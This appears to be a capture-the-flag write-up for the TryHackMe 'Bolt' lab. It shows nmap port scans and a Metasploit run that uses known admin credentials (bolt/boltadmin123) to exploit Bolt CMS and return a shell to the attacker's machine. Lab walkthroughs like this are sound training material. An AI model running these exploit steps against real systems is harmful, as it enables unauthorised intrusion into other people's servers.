 # Bolt

**Room Link:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (13) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (8).png" alt=""><figcaption></figcaption></figure>

###

###

###

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
search bolt
use 0
set RHOST $VICTIM
set LHOST $KALI
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://$VICTIM:8000
run
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>























































